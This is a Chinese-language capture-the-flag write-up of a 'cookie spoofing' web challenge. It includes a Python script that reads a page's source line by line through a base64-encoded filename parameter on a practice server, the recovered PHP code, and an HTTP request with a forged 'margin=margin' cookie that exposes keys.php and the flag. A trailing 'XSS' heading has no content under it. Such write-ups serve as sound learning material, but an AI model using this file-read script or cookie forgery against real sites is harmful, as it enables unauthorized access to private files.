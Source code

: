 ### cookies欺骗？？
对url的filename参数进行解密，知道了，页面能读取任意文件，写python脚本如下
```python
import requests
import base64

url = "http://120.24.86.145:8002/web11/index.php"
filename = base64.b64encode(b"index.php")
for i in range(50):
    data = {"line": i, "filename": filename}
    line = requests.get(url, params=data).text
    print(line)
    with open("index.php", "a") as f:
        f.write(line)
```
得到index.php源码
```php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
}
```
审计分析后，需要满足cookie中带有margin值，并且margin=margin，利用burp重发请求包
```http
GET /web11/index.php?line=0&filename=a2V5cy5waHA= HTTP/1.1
Host: 120.24.86.145:8002
Cookie: PHPSESSID=fr0hdcb1acm2mn5r2f867d1c9i672g78; margin=margin
```
得到flag
<br>

### XSS

<br>
